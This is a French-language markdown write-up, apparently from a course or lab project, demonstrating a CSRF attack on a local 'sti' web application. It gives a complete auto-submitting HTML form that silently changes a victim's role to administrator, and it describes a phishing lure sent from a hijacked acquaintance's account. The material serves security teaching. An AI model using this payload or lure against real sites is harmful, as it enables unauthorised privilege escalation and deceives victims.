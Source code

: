 ## CSRF

Cet exemple illustre une attaque csrf sur le site web sti.

## Introduction

### Cible

L'attaque consiste à modifier le rôle d'un utilisateur pour le rendre administrateur.

### Condition 

Les conditions pour mener l'attaque à bien sont les suivantes

- L'attaquant connait les champs du formulaire permettant d'effectuer la requête POST
- L'attaquant a réussi à convaincre l'utilisateur de visiter son site web malveillant où se trouve sa page effectuant une requête POST.

Faiblesse de l'exemple :

- L'utilisateur sait que le rôle a été modifié car un message de confirmation s'affiche

### Démonstration

### Mise en place de l'infrastructure

L'attaquant possède un site web avec une page html contenant :

- Le formulaire a envoyer pour modifier le rôle de l'utilisateur
- Un code javascript effectuant directement la requête sans que l'utilisateur n'ait à le faire soi-même

### Page role.html

```html
<!DOCTYPE HTML>
<html>
    <head></head>
    <body>
    <form class='form' name="roleForme" method='POST' action="http://localhost:8080/index.php?action=vue_role&qIdUser=2" enctype="multipart/form-data">
  <!--
// vue_select_role.php
// Date de création : 07/10/2021
// Fonction : vue contenant les balises select pour changer le role d'un utilisateur
// __________________________________________
  -->
  <select  name="role">
      <option value="1"selected>Administrateur</option>
      <option value="2">Collaborateur </option>
    </select>
       <button type="submit" class="btn btn-primary" name="addRole">Envoyer</button>
    </form>
    <script language="javascript">document.roleForme.submit();</script>
</body>
</html>

```

Le code ci-dessus va automatiquement émettre une requête POST avec le contenu du formulaire dès que l'utilisateur est sur la page.

```javascript
<script language="javascript">document.roleForme.submit();</script>
```



### Scénario social engineering

Cette exemple illustre une façon possible pour convaincre l'utilisateur de cliquer sur le lien.

Il envoie le lien url de son site web et fait en sorte que l'utilisateur clique dessus. Par exemple, il a réussi à obtenir le compte email, facebook d'une connaissance de la victime. Il envoi l'email suivant :

![csrf-email](./assets/csrf/csrf-email.PNG)

L'utilisateur ne se méfie pas et clique sur lien url qui l'envoie sur le site malveillant contenant la page html (formulaire + script javasript)



### Résultat :

Une fois sur la page, le formulaire sera directement envoyé et l'action exécutée

Le rôle a bien été modifié !

![csrf-result](./assets/csrf/csrf-result.PNG)

Lorsqu'on se connecte en tant qu'user, on constate bien que la partie administration est dorénavant accessible![csrf-result2](./assets/csrf/csrf-result2.PNG)



Sources 

- https://portswigger.net/web-security/csrf

